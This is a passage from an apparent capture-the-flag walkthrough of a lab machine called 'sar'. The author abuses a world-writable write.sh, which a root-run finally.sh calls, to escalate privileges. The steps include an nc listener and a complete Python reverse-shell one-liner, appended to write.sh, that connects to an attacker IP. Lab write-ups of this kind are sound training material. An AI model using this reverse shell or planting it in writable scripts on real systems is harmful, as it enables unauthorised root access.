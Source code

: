 Can we modify the `finally.sh` script, which runs as root - meaning it could get us a shell as root?

9) We cannot modify finally.sh but we can read it. Inspecting it we find that it invokes a different script `write.sh` in the same directory - which we **CAN** modify!

```
www-data@sar:/var/www/html$ ls -la
ls -la
total 40
drwxr-xr-x 3 www-data www-data  4096 Jul 24  2020 .
drwxr-xr-x 5 www-data www-data  4096 Mar  4 08:12 ..
-rwxr-xr-x 1 root     root        22 Oct 20  2019 finally.sh
-rw-r--r-- 1 www-data www-data 10918 Oct 20  2019 index.html
-rw-r--r-- 1 www-data www-data    21 Oct 20  2019 phpinfo.php
-rw-r--r-- 1 root     root         9 Oct 21  2019 robots.txt
drwxr-xr-x 4 www-data www-data  4096 Mar  4 07:54 sar2HTML
-rwxrwxrwx 1 www-data www-data    30 Jul 24  2020 write.sh

www-data@sar:/var/www/html$ cat finally.sh
cat finally.sh
#!/bin/sh

./write.sh
```

10) Back in my Kali machine, I set up a listener on port 443 to catch the shell we'll set up next:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 443               
listening on [any] 443 ...
```

10) I add the python reverse shell invocation into the `write.sh` script:

```
www-data@sar:/var/www/html$ echo python3 -c "'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.199\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'" >> write.sh

www-data@sar:/var/www/html$ cat write.sh
cat write.sh
#!/bin/sh

touch /tmp/gateway
python3 -c "'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.199\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'
```

11) I test the `write.sh` script by invoking it as user `www-data`:

```
www-data@sar:/var/www/html$ ./write.sh
./write.sh
```
